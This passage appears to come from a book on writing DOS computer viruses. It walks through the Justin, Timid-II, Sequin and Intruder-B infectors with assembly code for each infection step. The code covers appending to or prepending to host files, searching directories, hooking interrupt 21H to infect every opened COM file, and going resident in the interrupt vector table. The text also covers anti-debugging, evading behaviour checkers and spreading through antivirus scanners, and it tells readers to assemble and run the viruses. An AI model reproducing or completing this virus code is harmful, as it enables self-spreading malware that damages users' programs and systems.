One final check is necessary. Starting with DOS 6.0, a COM program may not really be a COM program. DOS checks the program to see if it has a valid EXE header, even if it is named "COM", and if it has an EXE header, DOS loads it as an EXE file. This unusual circumstance can cause problems if a parasitic virus doesn't recognize the same files as EXE's and steer clear of them. If a parasitic COM infector attacked a file with an EXE structure, DOS would no longer recognize it as an EXE program, so DOS would load it as a COM program. The virus would execute properly, but then it would attempt to transfer control to an EXE header (which is just a data structure) rather than a valid binary program. That would probably result in a system hang.
One might think programs with this bizarre quirk are fairly rare, and not worth the trouble to steer clear of them. Such is not the case. Some COMMAND.COMs take this form - one file a nice virus certainly doesn't want to trash.
Checking for EXE's is really quite simple. One need only see if the first two bytes are "MZ". If they are, it's probably an EXE, so the virus should stay away! FILE_OK just checks
cmp WORD PTR [HOST],'ZM'
and exits with c set if this instruction sets the z flag. Finally, FILE_OK will close the file if it isn't a good one to infect, and leave it open, with the handle in bx, if it can be infected. It's left open so the infected version can easily be written back to the file.
Now, if FIND_FILE has located a file to infect, the actual process of infecting is simple. The image of the infected file is already in memory, so Justin simply has to write it back to disk. To do that, Justin resets the file pointer to the start of the file again, and uses DOS Function 40H to write the infected host to the file. The size of the host is passed to INFECT_FILE from FILE_OK in dx, and bx still contains the file handle. To the host size, INFECT_FILE adds the size of the virus, OFFSETHOST-100H, and writes from offset 100H in the high segment,
pop cx ;original host size to cx
add cx,OFFSET HOST - 100H ;add virus size to it
mov dx,100H ;start of infected image
mov ah,40H ;write file
int 21H
Close the file and the infection is complete.
The last thing Justin has to do is execute the original host program to which the virus was attached. The new host which was just infected is stored in the high segment, where the virus is now executing. The original host is stored in the lower segment. In order for the original host to execute properly, it must be moved down from OFFSET HOST to 100H, where it would have been loaded had it been loaded by DOS in an uninfected state. Since Justin doesn't know how big the original host was, it must move everything from OFFSET HOST to the bottom of the stack down (Fig. 5.5). That will take care of any size host. Justin must be careful not to move anything on the stack itself, or it could wipe out the stack and cause a system crash. Finally, Justin transfers control to the host using a far return. The code to do all of this is given by:
mov di,100H ;move host to low memory
mov si,OFFSET HOST
mov ax,ss ;ss points to low seg still
mov ds,ax ;set ds and es to point there
mov es,ax
push ax ;push return address
push di ;to execute host (for later)
mov cx,sp
sub cx,OFFSET HOST ;cx = bytes to move
rep movsb ;move host to offset 100H
retf ;and go execute it
There! The host gets control and executes as if nothing were different.
Fig. 5.5: Moving the host back in place.
One special case that Justin also must pay attention to is when there isn't enough memory to create a high segment. In this case, it must move the host to offset 100H without executing in a new segment. This presents a problem, because when Justin moves the host, it must overwrite itself (including any code in its body that is doing the moving).
To complete a move, and transfer control to the host, Justin must dynamically put some code somewhere that won't be overwritten. The only two safe places are (1) the PSP, and (2) on the stack. Justin opts for the latter. Using the code:
mov ax,00C3H ;put "ret" on stack
push ax
mov ax,0A4F3H ;put "rep movsb" on stack
push ax
Justin dynamically sets up some instructions just below the stack. These instructions are simply:
rep movsb ;move the host
ret ;and execute host
Then Justin moves the stack up just above these instructions:
add sp,4
Here, we find two words on the stack:
[0100H]
[FFF8H]
The first is the address 100H, used to return from the subroutine just placed on the stack to offset 100H, where the host will be. The next is the address of the routine hiding just under the stack. Justin will return to it, let it execute, and in turn, return to the host. (See Figure 5.6)
Granted, this is a pretty tricky way to go about moving the host. This kind of gymnastics is necessary though. And it has an added benefit: the code hiding just below the stack will act as an anti-debugging measure. Notice how Justin turns interrupts off with the cli instruction just before returning to this subroutine to move the host? If any interrupt occurs while executing that code, the stack will wipe the code out and the whole thing will crash. Well, guess what stepping through this code with a debugger will do? Yep, it generates interrupts and wipes out this code. Try it and you'll see what I mean.
Fig. 5.6: Stack Detail for Move.
00FC: rep movsb
00FE: jmp 100H
0100: (HOST will be here)
In the virus you set up the si, di and cx registers, and jump from the main body of the virus to offset 00FCH, and the host will execute. Try this. Why do you need the jump instruction on 386 and above processors, but not on 8088-based machines?
The Justin virus in the last chapter illustrates many of the basic techniques used by a parasitic virus to infect COM files. It is a simple yet effective virus. As we mentioned in the last chapter, however, there is another important type of non-resident parasitic virus worth looking at: one which places itself at the end of a host program. Many viruses are of this type, and it can have advantages in certain situations. For example, on computers with slow disks, or when infecting files on floppy disks, viruses which put themselves at the start of a program can be very slow because they must read the entire host programin from diskand write it back outagain. Viruses which reside at the end of a file only have to write their own code to disk, so they can work much faster. Likewise, because such viruses don't need a large buffer to load the host, they can operate in less memory. Although memory requirements aren't a problem in most computers, memory becomes a much more important factor when dealing with memory resident viruses. A virus which takes up a huge chunk of memory when going resident will be quickly noticed.
Timid-II is a virus modeled after the Timid virus first discussed in The Little Black Book of Computer Viruses. Timid-II is more aggressive than Justin, in that it will not remain in the current directory. If it doesn't find a file to infect in the current directory, it will search other directories for files to infect as well.
In case you read that last sentence too quickly, let me repeat it for you: This virus can jump directories. It can get away from you. So be careful if you experiment with it!
Non-destructive viruses which infect COM files generally must execute before the host. Once the host has control, there is just no telling what it might do. It may allocate or free memory. It may modify the stack. It may overwrite the virus with data. It may go memory resident. Any parasitic virus which tries to patch itself into some internal part of the host, or which tries to execute after the host must have some detailed knowledge of how the host works. Generally, that is not possible for some virus just floating around which will infect just any program. Thus, the virus must execute before the host, when it is possible to know what is where in memory.
Since a COM program always starts execution from offset 100H (which corresponds to thebeginning of afile) aparasitic virus must modify the beginning of any file it infects, even if its main body is located at the end of the file. Typically, only a few bytes of the beginning of a file are modified - usually with a jump instruction to the start of the virus. (See Figure 6.1)
Figure 6.1: Operation of the TIMID-II virus.
The main problem a virus like Timid-II must face is that its code will change positions when it infects new files. If it infects a COM file that is 1252H bytes long, it will start executing at offset 1352H. Then if it goes and infects a 2993H byte file, it must execute at 2A93H. Now, short and near jumps and calls are always coded using relative addressing, so these changing offsets are not a problem. To illustrate relative addressing, consider a call being made to a subroutine CALL_ME:
cs:180 call CALL_ME
cs:183 ...
cs:327 CALL_ME: ...
...
ret
Now suppose CALL_ME is located at offset 327H, and the call to CALL_ME is located at 180H. Then the call is coded as E8 A4 01. The E8 is the op-code for the call and the word 01A4H is the distance of the routine CALL_ME from the instruction following the call,
1A4H = 327H - 183H
Because the call only references the distance between the current ip and the routine to call, this piece of code could be moved to any offset and it would still work properly. That is called relative addressing.
On the other hand, in an 80x86 processor, direct data access is handled using absolute addressing. For example, the code
mov dx,OFFSET COM_FILE
COM_FILE db '*.COM',0
will load the dx register with the absolute address of the string COM_FILE. If this type of a construct is used in a virus that changes offsets, it will quickly crash. As soon as the virus moves to any offset but where it was originally compiled, the offset put in the dx register will no longer point to the string "*.COM". Instead it may point to uninitialized data, or to data in the host, etc., as illustrated in Figure 6.2.
Figure 6.2: The problem with absolute addressing.
Any virus located at the end of a COM program must deal with this difficulty by addressing data indirectly. The typical way to do this is to figure out what offset the code is actually executing at, and save that value in a register. Then you access data by using that register in combination with an absolute offset. For example, the code:
call GET_ADDR ;put OFFSET GET_ADDR on stack
GET_ADDR: pop di ;get that offset into di
sub di,OFFSET GET_ADDR ;subtract compiled value
loads di with a relocation value which can be used to access data indirectly. If GET_ADDR is at the same location it was compiled at when the call executes, di will end up being zero. On the other hand, if it has moved, the value put on the stack will be the run-time location of GET_ADDR, not its value when assembled. Yet the value subtracted from di will be the compile time value. The result in di will then be the difference between the compiled and the run-time values. (This works simply because a call pushes an absolute return address onto the stack.) To get at data, then, one would use something like
lea dx,[di+OFFSET COM_FILE]
instead of
mov dx,OFFSET COM_FILE
or
mov ax,[di+OFFSET WORDVAL]
rather than
mov ax,[WORDVAL]
This really isn't too difficult to do, but it's essential in any virus that changes its starting offset or it will crash.
Another important method for avoiding absolute data in relocating code is to store temporary data in a stack frame. This technique is almost universal in ordinary programs which create temporary data for the use of a single subroutine when it is executing. Our virus uses this technique too.
To create a stack frame, one simply subtracts a desired number from the sp register to move the stack down, and then uses the bp register to access the data. For example, the code
push bp ;save old bp
sub sp,100H ;subtract 256 bytes from sp
mov bp,sp ;set bp = sp
creates a data block of 256 bytes which can be freely used by a program. When the program is done with the data, it just cleans up the stack:
add sp,100H ;restore sp to orig value
pop bp ;and restore bp too
and the data is gone. To address data on the stack frame, one simply uses the bp register. For example,
mov [bp+10H],ax
stored ax in bytes 10H and 11H in the data area on the stack. The stack itself remains functional because any thing pushed onto it goes below this data area.
Timid-II makes use of both of these techniques to overcome the difficulties of relocating code. The search string "*.*" is referenced using an index register, and uninitialized data, like the DTA, is created in a stack frame.
Timid-II is designed to infect up to ten files each time it executes (and that can be changed to any value up to 256). The file search routine SEARCH_DIR is designed to search the current directory for COM files to infect, and to search all the subdirectories of the current directory to any desired depth. To do that, SEARCH_DIR is designed to be recursive. That is, it can call itself. The logic of SEARCH_DIR is detailed in Figure 6.3.
Figure 6.3: Operation of the search routine.
To make SEARCH_DIR recursive, it is necessary to put the DTA on the stack as a temporary data area. The DTA is used by the DOS Search First/Search Next functions so, for example, when SEARCH_DIR is searching a directory and it finds a subdirectory, it must go off and search that subdirectory, but it can't lose its place in the current directory. To solve this problem, when SEARCH_DIR starts up, it simply steals 43H bytes of stack space and creates a stack frame,
push bp ;set up stack frame
sub sp,43H ;subtract size of DTA needed
mov bp,sp
Then it sets up the DTA using DOS Function 1AH.
mov dx,bp ;put DTA to the stack
mov ah,1AH
int 21H
From there, SEARCH_DIR can do as it pleases without bothering a previous instance of itself, if there was one. (Of course, the DTA must be reset after every call to SEARCH_DIR.)
To avoid having to do a double search, SEARCH_DIR searches any givendirectoryforallfilesusingthe*.*maskwiththedirectory attribute set in cx. This search will reveal all subdirectories as well as all ordinary files, including COM files. When the DOS search routine returns, SEARCH_DIR checks the attribute of the file just found. If it is a directory, SEARCH_DIR calls FILE_OK to see if the file should be infected. The first thing FILE_OK does is determine whether the file just found is actually a COM file. Everything else is ignored.
The routine INFECT_FILES works together with SEARCH_DIR to define the behavior of Timid-II. INFECT_FILES acts as a control routine for SEARCH_DIR, calling it twice. INFECT_FILES starts by setting INF_CNT, the number of files that will be infected, to 10, and DEPTH, the depth of the directory search, to 1. Then SEARCH_DIR is called to search the current directory and all its immediate subdirectories, infecting up to ten files. If ten files haven't been infected at the end of this process, INFECT_FILES next changes directories into the root directory and, setting DEPTH=2 this time, calls SEARCH_DIR again. In this manner, the root directory and all its immediate subdirectories and all their immediate subdirectories are potential targets for infection too.
As written, Timid-II limits the depthofthe directory tree search to at most two. Although SEARCH_DIR is certainly capable of a deeper search, a virus does not want to call attention to itself by taking too long in a search. SInce a computer with a large hard disk can contain thousands of subdirectories and tens of thousands of files, a full search of all the subdirectories can take several minutes. When the virus is new on the system, it will easily find ten files and the infection process will be fast, but after it has infected almost everything, it will have to search long and hard before it finds anything new. Even searching directories two deep from the root is probably too much, so ways to remedy this potential problem are discussed in the exercises for this chapter.
In addition to checking to see if a file name ends with "COM", the FILE_OK routine determines whether a COM program is suitable to be infected. The process used by Timid-II is almost the same as that used by Justin. The only difference is that the virus is now placed at the end of the host, so FILE_OK can't just read the start of the file and compare it to the virus to see if it's already infected.
In the Timid-II virus, the first few bytes of the host program are replaced with a jump to the viral code. Thus, the FILE_OK procedure can go out and read the file which is a candidate for infection to determine whether its first instruction is a jump. If it isn't, then the virus obviously has not infected that file yet. There are two kinds of jump instructions which might be encountered in a COM file, known as a near jump and a short jump. The Timid-II virus always uses a near jump to gain control when the program starts. Since a short jump only has a range of 128 bytes, one could not use it to infect a COM file larger than 128 bytes. The near jump allows a range of 64 kilobytes. Thus it can always be used to jump from the beginning of a COM file to the virus, at the end of the program, no matter how big the COM file is (as long as it is a valid COM file). A near jump is represented in machine language with the byte E9 Hex, followed by two bytes which tell the CPU how far to jump. Thus, the first test to see if infection has already occurred is to check to see if the first byte in the file is E9 Hex. If it is anything else, the virus is clear to go ahead and infect.
Looking for E9 Hex is not enough though. Many COM files are designed so the first instruction is a jump to begin with. Thus the virus may encounter files which start with an E9 Hex even though they have never been infected. The virus cannot assume that a file has been infected just because it starts with an E9. It must go further.Itmust have awayoftellingwhetherafilehasbeeninfected even when it does start with E9. If one does not incorporate this extra step into the FILE_OK routine, the virus will pass by many good COM files which it could infect because it thinks they have already been infected. While failure to incorporate such a feature into FILE_OK will not cause the virus to fail, it will limit its functionality.
One way to make this test simple and yet very reliable is to change a couple more bytes than necessary at the beginning of the host program. The near jump will require three bytes, so we might take two more, and encode them in a unique way so the virus can be pretty sure the file is infected if those bytes areproperlyencoded. The simplest scheme is to just set them to some fixed value. We'll use the two characters "VI" here. Thus, when a file begins with a near jump followed by the bytes "V"=56H and "I"=49H, we can be almost positive that the virus is there, and otherwise it is not. Granted, once in a great while the virus will discover a COM file which is set up with a jump followed by "VI" even though it hasn't been infected. The chances of this occurring are so small, though, that it will be no great loss if the virus fails to infect this rare one file in a million. It will infect everything else.
Since Timid-II infects multiple files, it makes more sense to put the call to the copy mechanism, INFECT_FILE, in the SEARCH_DIR routine, rather than the main control routine. That way, when SEARCH_DIR finds a file to infect, it can just make a call to infect it, and then get on with the business of finding another file.
Since the first thing the virus must do is place its code at the end of the COM file it is attacking, it sets the file pointer to the end of the file. This is easy. Set cx:dx=0, al=2 and call DOS Function 42H (remember the file handle is kept in bx all the time):
xor cx,cx
mov dx,cx
mov ax,4202H
int 21H
With the file pointer in the right location, the virus can now write itself out to disk at the end of this file. To do so, one simply uses the DOS write function, 40 Hex. To use Function 40H one must set ds:dx to the location in memory where the data is stored that is going to be written to disk. In this case that is the start of the virus. Next, set cx to the number of bytes to write (and bx to the file handle).
Now, with the main body of viral code appended to the end of the COM file under attack, the virus must do some clean-up work. First, it must move the first five bytes of the COM file to a storage area in the viral code. Then it must put a jump instruction plus the code letters "VI" at the start of the COM file. Since Timid-II has already read the first five bytes of the COM file in the search routine, they are sitting ready and waiting for action at START_IMAGE. They need only be written out to disk in the proper location. Note that there must be two separate areas in the virus to store five bytes of startup code. The active virus must have the data area START_IMAGE to store data from files it wants to infect, but it must also have another area, called START_CODE. This contains the first five bytes of the file it is actually attached to. Without START_CODE, the active virus will not be able to transfer control to the host program it is attached to when it is done executing.
Figure 6.4: START_IMAGE and START_CODE.
To write the first five bytes of the file under attack, the virus must take the five bytes at START_IMAGE, and store them where START_CODE is located on disk. (See Figure 6.4) First, the virus sets the file pointer to the location of START_CODE on disk. To find that location, it takes the original file size (stored at DTA+1AH by the searsh routine), and add OFFSET START_CODE - OFFSET VIRUS to it, moving the file pointer with respect to the beginning of the file:
xor cx,cx
lea dx,[bp+1AH]
add dx,OFFSET START_CODE - OFFSET VIRUS
mov ax,4200H
int 21H
Next, the virus writes the five bytes at START_IMAGE out to the file (notice the indexed addressing, since START_IMAGE moves around from infection to infection):
mov cx,5
lea dx,[di + OFFSET START_IMAGE]
mov ah,40H
int 21H
The final step in infecting a file is to set up the first five bytes of the file with a jump to the beginning of the virus code, along with the identification letters "VI". To do this, the virus positions the file pointer to the beginning of the file:
xor cx,cx
mov dx,cx
mov ax,4200H
int 21H
Next, it sets up a data area in memory with the correct information to write to the beginning of the file. START_IMAGE is a good place to set up these bytes since the data there is no longer needed for anything. The first byte is a near jump instruction, E9 Hex:
mov BYTE PTR [di+START_IMAGE],0E9H
The next two bytes should be a word to tell the CPU how many bytes to jump forward. This byte needs to be the original file size of the host program, plus the number of bytes in the virus which are before the start of the executable code (we will put some data there). We must also subtract 3 from this number because the relative jumpisalways referenced to thecurrent instructionpointer, which will be pointing to 103H when the jump is actually executed. Thus, the two bytes telling the program where to jump are set up by
mov ax,WORD PTR [DTA+1AH]
add ax,OFFSET VIRUS_START - OFFSET VIRUS - 3
mov WORD PTR [di+START_IMAGE+1],ax
Finally, the virus sets up the identification bytes "VI" in the five byte data area,
mov WORD PTR [di+START_IMAGE+3],4956H ;'VI'
and writes the data to the start of the file, using the DOS write function,
mov cx,5
lea dx,[di+OFFSET START_IMAGE]
mov ah,40H
int 21H
and then closes the file using DOS,
mov ah,3EH
int 21H
This completes the infection process.
Once the virus has done its work, transferring control to the host is much easier than it was with Justin, since the virus doesn't have to overwrite itself. It just moves the five bytes at START_CODE back to offset 100H, and then jumps there by pushing 100H onto the stack and using a ret instruction. The return instruction offers the quickest way to transfer control to an absolute offset from an unknown location.
The Timid-II may be assembled using MASM, TASM or A86 to a COM file and then run directly. Be careful, it will jump directories!
Memory resident viruses differ from the direct-acting viruses we've discussed so far in that when they are executed, they hide themselves in the computer's memory. They may not infect any programs directly when they are first executed. Rather, they sit and wait in memory until other programs are accessed, and infect them then.
Historically, memory resident viruses have proven to be much more mobile than the direct-acting viruses we've studied so far. All of the most prolific viruses which have escaped and run amok in the wild are memory resident. The reasons for this are fairly easy to see: Memory resident viruses can jump across both directories and disk drives simply by riding on the user's coattails as he changes directories and drives in the normal use of his computer. No fancy code is needed to do it. Secondly, memory resident viruses distribute the task of infecting a computer over time better than direct acting viruses. If you experimented with Timid-II at all in the last chapter, you saw how slow it could get on a system which was fully infected. This slowdown, due to a large directory search, is a sure clue that something's amiss. The resident virus avoids such problems by troubling itself only with the file that's presently in its hands.
There are a wide variety of techniques which a file-infecting virus can use to go memory resident. The most obvious technique is to simply use the DOS services designed for that. There are two basic ones, Interrupt 21H, Function 31H, and Interrupt 27H. Both of these calls just tell DOS to terminate that program, and stay away from the memory it occupies from then on.
One problem a virus faces if it does a DOS-based Terminate and Stay Resident (TSR) call is that the host will not execute. To go resident, the virus must terminate rather than executing the host. This forces viruses which operate in such a manner to go through the added gymnastics of reloading a second instance of the host and executing it. The most famous example of such a virus is the Jerusalem.
These techniques work just fine in an environment in which no one suspects a virus. There are, however, a number of behavior checkers, like Flu Shot Plus, which will alert the user when a program goes resident using these function calls. Thus, if you're running a program like your word processor that shouldn't go resident and suddenly it does, then you immediately should suspect a virus... and if you don't, your behavior checker will remind you. For this reason, it's not always wise for a memory resident virus to use the obvious route to go memory resident.
There are several basic techniques which a file-infecting virus can use to go resident without tripping alarms. One of the simplest techniques, which small viruses often find effective, is to move to an unused part of memory which probably won't be overwritten by anything, called a memory hole. Once the virus sets itself up in a memory hole, it can just go and let the host execute normally.
The Sequin virus, which we shall examine in this chapter, is a resident parasitic COM infector which puts its main body at the end of the host, with a jump to it at the beginning. (Figure 7.1) In memory, Sequin hides itself in part of the Interrupt Vector Table (IVT), located in segment 0 from offset 0 to 3FF Hex in memory, the first 1024 bytes of available memory.
Figure 7.1: Operation of the SEQUIN virus.
The interrupt vectors above 80H (offsets 200H to 3FFH) are used by only a very few odd ball programs.1 Thus, a virus can simply locate its code in this space and chances are it won't foul anything up. To go resident, the virus simply checks to see if it is already there by calling the IN_MEMORY routine - a simple 10 byte compare function. IN_MEMORY can be very simple, because the location of Sequin in memory is always fixed. Thus, all it has to do is look at that location and see if it is the same as the copy of Sequin which was just loaded attached to a host:
IN_MEMORY:
xor ax,ax ;set es segment = 0
mov es,ax
mov di,OFFSET INT_21 + IVOFS ;di points to virus start
mov bp,sp ;get absolute return @
mov si,[bp] ;to si
mov bp,si ;save it in bp too
add si,OFFSET INT_21 - 103H ;point to int 21H handler
mov cx,10 ;compare 10 bytes
repz cmpsb
ret
Notice how the call to this routine is used to locate the virus in memory. (Remember, the virus changes offsets since it sits at the end of the host.) When IN_MEMORY is called, the absolute return address (103H in the original assembly) is stored on the stack. The code setting up bp here just gets the absolute start of the virus.
If the virus isn't in memory already, IN_MEMORY returns with the z flag reset, and Sequin just copies itself into memory at 0:200H,
mov di,200H
mov si,100H
mov cx,OFFSET END_Sequin - 100H
rep movsb
Of course, if Sequin just copied some code to a different location in memory, and then passed control to the host, it could not be a virus. The code it leaves in memory must do something - and to do something it must execute at some point in time.
In order to gain control of the processor in the future, all memory resident programs - viruses or not - hook interrupts. Let us examine the process of how an interrupt works to better understand this process. There are two types of interrupts: hardware interrupts and software interrupts, and they work differently. A virus can hook either type of interrupt, but the usual approach is to hook software interrupts.
A hardware interrupt is normally invoked by something in hardware. For example, when you press a key on the keyboard it is sent to the computer where an 8042 microcontroller does some data massaging, and then signals the 8259 interrupt controller chip that it has a keystroke. The 8259 generates a hardware interrupt signal for the 80x86. The 80x86 calls an Interrupt Service Routine which retrieves the keystroke from the 8042 and puts it in main system memory.
In contrast, a software interrupt is called using an instruction in software which we've already seen quite a bit: int XX, where XX can be any number from 0 to 0FFH. Let's consider int 21H: When the processor encounters the int 21H instruction, it pushes (a) the flags (carry, zero, etc.), (b) the cs register and (c) the offset immediately following the int 21H instruction. Next, the processor jumps to the address stored in the 21H vector in the Interrupt Vector Table. This vector is stored at segment 0, offset 21H x 4 = 84H. An interrupt vector is just a segment and offset which points somewhere in memory. For this process to do something valuable, a routine to make sense out of the interrupt call must be sitting at this "somewhere in memory".2 This routine then executes, and passes control back to the next instruction in memory after the int 21H using the iret (interrupt return) instruction. Essentially, a software interrupt is very similar to a far call which calls a subroutine at a different segment and offset. It differs in that it pushes the flags onto the stack, and it requires only two bytes of machine language instead of five. Generally speaking, interrupts invoke system-wide functions, whereas a far call is used to invoke a program-specific function (though that is not always the case).
Software interrupts are used for many important system services, as we've already learned in previous chapters. Therefore they are continually being called by all kinds of programs and by DOS itself. Thus, if a virus can subvert an interrupt that is called often, it can filter calls to it and add unsuspected "features".
The Sequin virus subverts the DOS Interrupt 21H handler, effectively filtering every call to DOS after the virus has been loaded. Hooking an interrupt vector in this manner is fairly simple. Sequin contains an interrupt 21H handler which is of the form
INT_21:
.
.
.
jmp DWORD PTR cs:[OLD_21]
OLD_21 DD ?
This code is called an interrupt hook because it still allows the original interrupt handler to do all of the usual processing - it just adds something to it.
To make this interrupt hook work properly, the first step is to get the 4 bytes stored at 0:0084H (the original interrupt vector) and store them at OLD_21. Next, one takes the segment:offset of the routine INT_21 and stores it at 0:0084H:
mov bx,21H*4 ;next setup int 21H
xor ax,ax ;ax=0
xchg ax,es:[bx+2] ;get/set segment
mov cx,ax
mov ax,OFFSET INT_21 + IVOFS
xchg ax,es:[bx] ;get/set offset
mov di,OFFSET OLD_21 + IVOFS ;and save old seg/offset
stosw
mov ax,cx
stosw ;ok, that's it
If there were no code before the jump above, this interrupt hook would do nothing and nothing would change in how interrupt 21H worked. The code before the jump instruction, however, can do whatever it pleases, but if it doesn't act properly, it could foul up the int 21H instruction which was originally executed, so that it won't accomplish what it was intended to do. Normally, that means the hook should preserve all registers, and it should not leave new files open, etc.
Typically, a resident virus will hook just one function for int 21H. In theory, any function could be hooked, but some make the virus' job especially easy - particularly those file functions for which one of the parameters passed to DOS is a file name. Sequin hooks Function 3DH, the File Open function:
INT_21:
cmp ah,3DH ;file open?
je INFECT_FILE ;yes, infect if possible
jmp DWORD PTR cs:[OLD_21]
When Function 3DH is called by any program, or by DOS itself, ds:dx contains a pointer to a file name. The INFECT_FILE routine checks to see if this file name ends in "COM" and, if so, opens the file to read five bytes from the start of the file into the HOST_BUFF data area. To check if Sequin is already there, the virus looks for the instructions mov ah,37H and a near jump. This is the code the virus uses to detect itself. The mov ah,37H is simply a dummy instruction used for identification purposes, like the "VI" used by Timid-II. (Sequin also checks for an EXE file, as usual.) If the file can be infected, Sequin writes itself to the end of the file, and then writes the mov ah,37H and a jump to the beginning of the file. This completes the infection process.
This entire process takes place inside the viral int 21H handler before DOS even gets control to open the file in the usual manner. After it's infected, the virus hands control over to DOS, and DOS opens an infected file. In this way the virus just sits there in memory infecting every COM file that is opened by any program for any reason.
Note that the Interrupt 21H handler can't call Interrupt 21H to open the file to check it, because it would become infinitely recursive. Thus, it must fake the interrupt by using a far call to the old interrupt 21H vector:
pushf ;push flags to simulate int
call DWORD PTR [OLD_21]
This is a very common trick used by memory resident viruses that must still make use of the interrupts they have hooked.
By hooking the File Open function, Sequin is capable of riding on the back of a scanner that can't recognize it. A scanner opens every program file to read it and check it for viruses. If the scanner doesn't recognize Sequin and it is in memory when the scanner runs, then it will infect every COM file in the system as the scanner looks through them for viruses. This is just one way a virus plays on anti-virus technology to frustrate it and make an otherwise beneficial tool into something harmful.
While Sequin is very infectious and fairly fool proof, it is important to understand how it can sometimes cause inadvertent trouble. Since it overwrites interrupt vectors, it could conceivably wipe out a vector that is really in use. (It is practically impossible totellifa vector is in use or not by examining its contents.) If Sequin did overwrite a vector that was in use, the next time that interrupt was called, the processor would jump to some random address corresponding to Sequin's code. There would be no proper interrupt handler at that location, and the system would crash. Alternatively, a program could load after Sequin, and overwrite part of it. This would essentially cause a 4-byte mutation of Sequin which at best would slightly impare it, and at worst, cause the Interrupt 21H hook to fail to work anymore, crashing the system. Neither of these scenarios are very desirable for a successful virus, however they will be fairly uncommon since those high interrupts are rarely used.
Sequin can be assembled directly into a COM file using MASM, TASM or A86. To test Sequin, execute the program Sequin.COM, loading the virus into memory. Then use XCOPY to copy any dummy COM file to another name. Notice how the size of the file you copied changes. Both the source file and the destination file will be larger, because Sequin infected the file before DOS even got a hold of it.
There are a number of other memory holes that a virus like Sequin could exploit. The following exercises will explore these possibilities.
The viruses we have discussed so far are fairly simple, and perhaps not too likely to escape into the wild. Since they only infected COM files, and since COM files are not too popular any more, those viruses served primarily as educational tools to teach some of the basic techniques required to write a virus. To be truly viable in the wild, a present-day virus must be capable of at least infecting EXE programs.
Here we will discuss a virus called Intruder-B which is designed to infect EXE programs. While that alone makes it more infective than some of the viruses we've discussed so far, Intruder-B is non-resident and it does not jump directories, so if you want to experiment with an EXE-infecting virus without getting into trouble, this is the place to start.
EXE viruses tend to be more complicated than COM infectors, simply because EXE files are more complex than COM files. The virus must be capable of manipulating the EXE file structure properly in order to infect a program. Fortunately, all is not more complicated, though. Because EXE files can be multi-segmented, some of the hoops we had to jump through to infect COM files - like code that handled relocating offsets - can be dispensed with.
The EXE file is designed to allow DOS to execute programs that require more than 64 kilobytes of code, data and stack. When loading an EXE file, DOS makes no a priori assumptions about the size of the file, how many segments it contains, or what is code or data. All of this information is stored in the EXE file itself, in the EXE Header at the beginning of the file. This header has two parts to it, a fixed-length portion, and a variable length table of pointers to segment references in the Load Module, called the Relocation Pointer Table. Since any virus which attacks EXE files must be able to manipulate the data in the EXE Header, we'd better take some time to look at it. Figure 8.1 is a graphical representation of an EXE file. The meaning of each byte in the header is explained in Table 8.1.
When DOS loads the EXE file, it uses the Relocation Pointer Table to modify all segment references in the Load Module. After that, the segment references in the image of the program loaded into memory point to the correct memory locations. Let's consider an example (Figure 8.2): Imagine an EXE file with two segments. The segment at the start of the load module contains a far call to the second segment. In the load module, this call looks like this:
Address Assembly Language Machine Code -------------------------------------------------------------------- 0000:0150 CALL FAR 0620:0980 9A 80 09 20 06
From this, one can infer that the start of the second segment is 6200H (= 620H x 10H) bytes from the start of the load module. The Relocation Pointer Table would contain a vector 0000:0153 to point to the segment reference (20 06) of this far call. When DOS loads the program, it might load it starting at segment 2130H, because DOS and some memory resident programs occupy locations below this. So DOS would first load the Load Module into memory at 2130:0000. Then it would take the relocation pointer 0000:0153 and transform it into a pointer, 2130:0153 which points to the segment in the far call in memory. DOS will then add 2130H to the word in that location, resulting in the machine language code 9A 80 09 50 27, or call far 2750:0980 (See Figure 8.2).
Figure 8.1: Structure of an EXE file.
Figure 8.2: Loading an EXE into memory.
| Offset | Size | Name | Description |
|---|---|---|---|
| 0 | 2 | Signature | These bytes are the characters M and Z in every EXE file and identify the file as an EXE file. If they are anything else, DOS will try to treat the file as a COM file. |
| 2 | 2 | Last Page Size | Actual number of bytes in the final 512 byte page of the file (see Page Count). |
| 4 | 2 | Page Count | The number of 512 byte pages in the file. The last page may only be partially filled, with the number of valid bytes specified in Last Page Size. For example a file of 2050 bytes would have Page Count = 5 and Last Page Size = 2. |
| 6 | 2 | Reloc Tbl Entries | The number of entries in the relocation pointer table |
| 8 | 2 | Header Pgraphs | The size of the EXE file header in 16 byte paragraphs, including the Relocation table. The header is always a multiple of 16 bytes in length. |
| 0AH | 2 | MINALLOC | The minimum number of 16 byte paragraphs of memory that the program requires to execute. This is in addition to the image of the program stored in the file. If enough memory is not available, DOS will return an error when it tries to load the program. |
| 0CH | 2 | MAXALLOC | The maximum number of 16 byte paragraphs to allocate to the program when it is executed. This is often set to FFFF Hex by the compiler. |
| 0EH | 2 | Initial ss | This contains the initial value of the stack segment relative to the start of the code in the EXE file, when the file is loaded. This is relocated by DOS when the file is loaded, to reflect the proper value to store in the ss register. |
| 10H | 2 | Initial sp | The initial value to set sp to when the program is executed. |
| 12H | 2 | Checksum | A word oriented checksum value such that the sum of all words in the file is FFFF Hex. If the file is an odd number of bytes long, the last byte is treated as a word with the high byte = 0. Often this checksum is used for nothing, and some compilers do not even bother to set it properly. |
| 14H | 2 | Initial ip | The initial value for the instruction pointer, ip, when the program is loaded. |
| 16H | 2 | Initial cs | Initial value of the code segment relative to the start of the code in the EXE file. This is relocated by DOS at load time. |
| 18H | 2 | Reloc Tbl Offset | Offset of the start of the relocation table from the start of the file, in bytes. |
| 1AH | 2 | Overlay Number | The resident, primary part of a program always has this word set |
Table 8.1: The EXE Header Format
Note that a COM program requires none of these calisthenics since it contains no segment references. Thus, DOS just has to set the segment registers all to one value before passing control to the program.
A virus that is going to infect an EXE file will have to modify the EXE Header and the RelocationPointerTable, as wellasadding its own code to the Load Module. This can be done in a whole variety of ways, some of which require more work than others. The Intruder-B virus will attach itself to the end of an EXE program and gain control when the program first starts. This will require a routine similar to that in Timid-II, which copies program code from memory to a file on disk, and then adjusts the file.
Intruder-B will have its very own code, data and stack segments. A universal EXE virus cannot make any assumptions about how those segments are set up by the host program. It would crash as soon as it finds a program where those assumptions are violated. For example, if one were to use whatever stack the host program was initialized with, the stack could end up right in the middle of the virus code with the right host. (That memory would have been free space before the virus had infected the program.) As soon as the virus started making calls or pushing data onto the stack, it would corrupt its own code and self-destruct.
